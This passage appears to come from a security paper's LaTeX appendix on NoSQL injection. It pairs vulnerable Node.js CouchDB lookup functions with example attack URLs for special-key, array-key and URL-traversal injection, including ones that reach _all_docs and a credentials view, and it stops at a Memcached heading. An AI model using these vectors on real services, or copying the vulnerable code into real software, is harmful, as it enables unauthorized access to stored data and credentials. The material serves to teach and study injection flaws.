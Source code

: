 \subsection{Special Key Injection}

\begin{lstlisting}[caption={Vulnerable NodeJS example for special key injection on CouchDB}, label={lst:PHPArrayInjection}]
function checkUser(user, password, callback) {
  nano.use('users').get(user, (err, res)=> {
    callback(res.password === paasword);
  });
}

checkUser(req.query.user, req.query.password, handleResult);
\end{lstlisting}

\begin{lstlisting}[caption={Attack vector on CouchDB for speical key injection via HTTP GET}, label={lst:PHPArrayInjection}]
https://example.org/login?user=_all_docs
\end{lstlisting}

\subsection{Array Key Injection}

\begin{lstlisting}[caption={Vulnerable NodeJS example for array key injection on CouchDB}, label={lst:PHPArrayInjection}]
function getDocument(key, callback) {
  if (key === "secret" || key[0] === "_") {
    callback("No access!");
  } else {
    nano.use('table').get(key, callback);
  }
}

getDocument(req.query.key, handleResult);
\end{lstlisting}

\begin{lstlisting}[caption={Attack vectors on CouchDB for array key injection via HTTP GET}, label={lst:PHPArrayInjection}]
https://example.org?key[]=secret
https://example.org?key[]=_all_docs
\end{lstlisting}

\subsection{URL Traversal Injection}

\begin{lstlisting}[caption={Vulnerable NodeJS example for URL traversal injection on CouchDB}, label={lst:PHPArrayInjection}]
function getDocument(key, callback) {
  nano.use('table').get(key, callback);
}

getDocument(req.query.key, handleResult);
\end{lstlisting}

\begin{lstlisting}[caption={Attack vectors on CouchDB for URL traversal injection via HTTP GET}, label={lst:PHPArrayInjection}]
https://example.org/get?key=_design/credentials/_view/user_password
\end{lstlisting}

\section{Memcached Key-Value Cache}
\subsection{Array Key Injection}